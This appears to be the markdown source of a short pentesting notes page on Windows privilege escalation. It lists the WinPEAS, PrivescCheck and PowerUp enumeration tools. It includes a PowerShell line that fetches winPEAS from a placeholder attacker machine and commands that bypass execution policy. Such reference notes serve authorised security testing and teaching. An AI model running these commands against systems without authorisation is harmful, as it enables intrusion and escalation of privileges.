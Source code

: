 ```yaml
---
title: "Windows privilege escalation"
weight: 3
description: "Learn about various techniques and methods for privilege escalation on Windows systems, including UAC bypass, credential dumping and more, with detailed notes and code examples."
---
```


# Windows privilege escalation

{{< hint style=notes >}}
**Note**: if you have a valid user credential you can authenticate in windows target from SMB, RDP, WinRM.
{{< /hint >}}

---

## Automation script

**WinPEAS** \[[🔗](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)]
```powershell
powershell

# Transfer winPEAS file
iwr -uri http://<ATTACKER_MACHINE>/winPEASx64.exe -Outfile winPEAS.exe

.\winPEAS.exe
```

**PrivescCheck** \[[🔗](https://github.com/itm4n/PrivescCheck)]
```dos
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
```

**PowerUp.ps1** \[[🔗](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)] [Docs](https://powersploit.readthedocs.io/en/latest/Privesc/)
```powershell
powershell -ep bypass
. .\PowerUp.ps1

# Now you can run commands like Get-ModifiableServiceFile
Get-ModifiableServiceFile
```

{{< hint style=warning >}}
**Warning**: You should **never fully trust the output of a tool**, as it can sometimes be incorrect—even on simple tasks like detecting the target machine’s operating system.
{{< /hint >}}


---

## Execute commands as another user
